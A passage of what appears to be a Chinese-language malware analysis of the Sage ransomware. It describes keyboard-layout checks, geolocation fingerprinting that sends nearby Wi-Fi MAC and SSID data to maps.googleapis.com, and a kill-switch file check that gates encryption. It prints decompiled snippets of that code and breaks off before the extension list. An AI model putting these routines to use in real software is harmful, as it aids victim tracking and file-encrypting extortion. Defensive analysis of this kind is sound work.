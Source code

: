 上述代码对用户键盘布局进行了检测，next变量的数值与语种的对应关系为：

[![](./img/85545/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01d2068cdc4c87ba65.png)

有点令人失望的是波兰语系并不在软件的例外列表中，如果Sage作者能看到这篇文章的话，请将0x15值添加到程序代码中（注：作者的调侃）。<br>

**3）地理位置指纹识别功能**

Sage试图通过maps.googleapis.com得到宿主机的地理位置信息以及SSID、MAC信息，如以下代码：

```
strcpy_((int)arg0, "/maps/api/browserlocation/json?browser=firefox&amp;sensor=true");
i = 0;
if ( v12[1] )
{
    offset = 0;
    do
    {
        ss_ = (int)&amp;v12[offset + 2];
        if ( *(_DWORD *)ss_ &lt;= 0x20u )
        {
            ToHexStrring(&amp;mac, (unsigned __int8 *)&amp;v12[offset + 12]);
            str_append(ssid, (_BYTE *)(ss_ + 4), *(_DWORD *)ss_);
            ssid[*(_DWORD *)ss_] = 0;
            sprintf_1((int)arg0, "&amp;wifi=mac:%s|ssid:%s|ss:%d", &amp;mac, ssid, (*(_DWORD *)(ss_ + 60) &gt;&gt; 1) - 100);
        }
        ++i;
        offset += 90;
    }
    while ( i &lt; v12[1] );
}
 
// ...
 
DoHttpGetRequest((DWORD)&amp;dwNumberOfBytesAvailable, "maps.googleapis.com", 0x1BBu, v8)
```

特征文件判定，文件加密流程开始前，Sage首先检查某个特征文件是否存在：

```
if ( CreateFileW(L"C:\Temp\lol.txt", 0x80000000, 1u, 0, 3u, 0, 0) == (HANDLE)-1 )
{
    // encryption code
}
```

Sage作者通过判断特征文件是否存在，决定加密流程是否启动，以避免对作者本机的文件造成影响。

若该特征文件不存在，Sage将启动加密流程。

<br>

**文件后缀清单**



Sage不会对所有文件进行加密，它只对文件后缀清单中的文件进行加密，受影响的文件后缀如下所示：
